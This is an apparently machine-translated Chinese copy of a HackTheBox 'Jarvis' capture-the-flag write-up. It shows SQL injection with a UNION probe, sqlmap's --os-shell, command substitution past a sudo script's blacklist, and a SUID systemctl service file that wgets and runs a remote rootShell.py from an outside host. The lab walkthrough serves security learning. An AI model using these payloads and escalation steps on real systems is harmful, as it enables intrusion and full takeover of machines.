# 贾维斯——黑客盒子报道

> 原文：<https://infosecwriteups.com/jarvis-hackthebox-writeup-7341a4d2517a?source=collection_archive---------0----------------------->

## 贾维斯是一个简单而有趣的盒子。首先，我将在其中一个网页中找到一个 SQLi，并使用`sqlmap`获得一个基本的 shell，然后绕过 sudo 文件上的过滤器来获得用户标志。为了找到根，我将滥用一个 suid 二进制文件来获得根 shell。



# 列举

像往常一样，让我们从 Nmap 扫描开始。



通常的端口`**22 and 80 and 64999**`是打开的。让我们在后台运行`**gobuster**` ，让 ***继续枚举。***

# 80 — HTTP

我们看到了一个看起来像酒店预订网站的东西。


我们看到页面上提到的`**supersecurehotel.htb**`。也许有一个虚拟主机，让我们把它添加到我们的`***/*etc/hosts**`文件中，看看服务器的响应是否有什么不同。

```
**127.0.1.1       kali****10.10.10.143    supersecurehotel.htb****# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters**
```

嗯，浏览到`**supersecurehotel.htb**`也是定向到同一个网页。

```
[**http://supersecurehotel.htb/room.php?cod=1**](http://supersecurehotel.htb/room.php?cod=1) **caught my attention. My guess was that the parameter** ***cod*** **is vulnerable to SQLi.**
```

使用一些基本的 SQLi 进行测试，证实了该站点确实容易受到 SQLi 的攻击。我检查了列的数量

***http://supersecurehotel.htb/room.php?[cod=1%20UNION%20SELECT%201，2，3，4，5，6，7](http://supersecurehotel.htb/room.php?cod=1%20UNION%20SELECT%201,2,3,4,5,6,7)*** ***。*** 我将请求提供给 sqlmap，并试图从 sqlmap 获得一个基本的 shell。

```
**root@kali:~/htb/boxes/jarvis# sqlmap -r room.req --batch --os-shell**
```

当 sqlmap 询问任何问题时，选择默认选项。
…。而且成功了！



我们可以得到一个合适的外壳



# Privesc: www-data -> pepper

我们看到用户`**www-data**`拥有 sudo 权限，可以作为`**pepper**` 用户运行文件。



sudo 许可

这看起来像某种应用程序，让我们 ping 某人，并给我们统计数据。



最初我尝试了简单的 bash 替换，看起来像是这样`Got me.`我看了一下代码，看看它有什么样的过滤器，它允许哪些命令。



黑名单

所以，过滤字符可以让我们执行其他命令。我决定继续研究 bash 替换`**$()**`。



成功了！

如果我删除特殊字符，只运行一个命令，它就能工作，我们会看到我们是以`**pepper**`用户的身份运行的。现在是获取 shell 的时候了。



胡椒壳



# 胡椒->根

做一些基本的检查，我们看到我们在`**systemctl**`上设置了一个`**SUID**`。在`**systemctl**`的帮助下，我寻找到了一些方法。



我的页面是[https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/)

```
**TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF**
```

上面的脚本创建了一个`**service file**`，并在`**ExecStart**`字段中添加了一个命令，以便在服务启动时运行该命令。然后是`**linking the service**` 然后是`**enabling it.**` [**一个了解 systemctl 服务的牛人。**](https://www.digitalocean.com/community/tutorials/how-to-use-systemctl-to-manage-systemd-services-and-units)

我已经用上面的脚本试过了。但是并没有达到预期的效果。可以看看[写我们自己的服务文件](https://medium.com/@benmorel/creating-a-linux-service-with-systemd-611b5c8b91d6)。这是我写的。这是一个非常基本的服务文件，它在服务启动时执行`**ExecStart**`字段中提到的命令。

```
**[Unit]
Description=Example systemd service.****[Service]
Type=simple
ExecStart=/bin/bash -c "/usr/bin/wget** [**http://10.10.14.174/rootShell.py**](http://10.10.14.174/rootShell.py) **-O /tmp/kkk.py ;/usr/bin/python /tmp/kkk.py"****[Install]
WantedBy=multi-user.target**
```

确保该服务文件不在`**/tmp/**`文件夹中。我被困在这里有一段时间了。然后我把服务文件移到了`**/home/pepper/**` ，这次它工作得很完美。医生是这么说的。

```
**link FILENAME****Link a unit file that is not in the unit file search paths into the unit file search path. This requires an absolute path to a unit file. The effect of this can be undone with disable. The effect of this command is that a unit file is available for start and other commands although it is not installed directly in the unit search path.**
```



一旦服务被链接，就像我们对任何普通服务一样启动服务，如`**apache2**` **或** `**docker**`。



根深蒂固的

感谢阅读，
普伦([https://twitter.com/PreethamBomma_](https://twitter.com/PreethamBomma_))

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)